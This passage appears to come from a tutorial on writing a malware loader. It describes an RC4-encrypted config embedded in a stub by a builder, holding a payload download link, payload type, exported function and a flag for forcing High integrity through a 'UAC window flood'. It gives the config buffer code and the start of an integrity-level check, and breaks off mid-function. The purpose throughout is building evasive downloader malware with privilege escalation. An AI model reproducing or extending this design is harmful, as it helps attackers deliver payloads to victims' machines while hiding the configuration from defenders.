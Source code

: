 Next, we implement the functionality of extracting information from the config. Our config will be an encrypted RC4 blob. A signature is sewn into the stub, the builder will search for this signature, form a configuration and insert it in place of the signature.
The RC4 key is unique for each reboot so that the config does not look static. In memory, the data will look like this:

RC4 key (8 bytes) - size of the encrypted config (4 bytes) - config

After decrypting the config, we will get:

File link size (4 bytes) - file link - Payload type (4 bytes) - size of exported function (4 bytes) - exported function - do I need to force privilege level (1 byte)

About the last option - we will introduce the ability to forcibly raise the integrity level to High using the same UAC window flood method.
If the process is running under Medium IL, but there are no rights, the condition will work and privileges will increase.

Let's put the config in a global variable, setting its size to 5000 bytes, or 5 kilobytes. We add the signature, scoring the rest of the place after it with zeros:

```
BYTE config[5000] = { "INSERT_CONFIG_HERE" };
```
Let's consider the functionality of unpacking the config. The above information is read from the BLOB, decrypted and distributed among variables.
For decryption, we will use the RC4 encryption algorithm, the implementation of which was borrowed by me from the mbedtls library, which can be downloaded here.

Next, we will write code that allows you to get the current Integrity Level and at the same time check whether the token of our process is privileged.
Creating a file utils.cpp and we write the code, simultaneously covering it with debugging outputs:

```
DWORD GetIntegrityLevel() {
    DWORD integrity_level = 0;
    HANDLE token_handle = 0;
    PTOKEN_MANDATORY_LABEL mandatory_label = nullptr;

    do
    {
        if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token_handle)) {
            DBGPRINT(L"File %s, line %d, OpenProcessToken error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

        DWORD length_needed = 0;

        if (GetTokenInformation(token_handle, TokenIntegrityLevel, nullptr, 0, &length_needed)) {
            DBGPRINT(L"File %s, line %d, GetTokenInformation error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

        if (GetLastError() != ERROR_INSUFFICIENT_BUFFER) {
            DBGPRINT(L"File %s, line %d, GetTokenInformation error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

        mandatory_label = (PTOKEN_MANDATORY_LABEL)Memory::Alloc(length_needed);

        if (!mandatory_label) {
            DBGPRINT(L"File %s, line %d, Memory::Alloc error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }
```
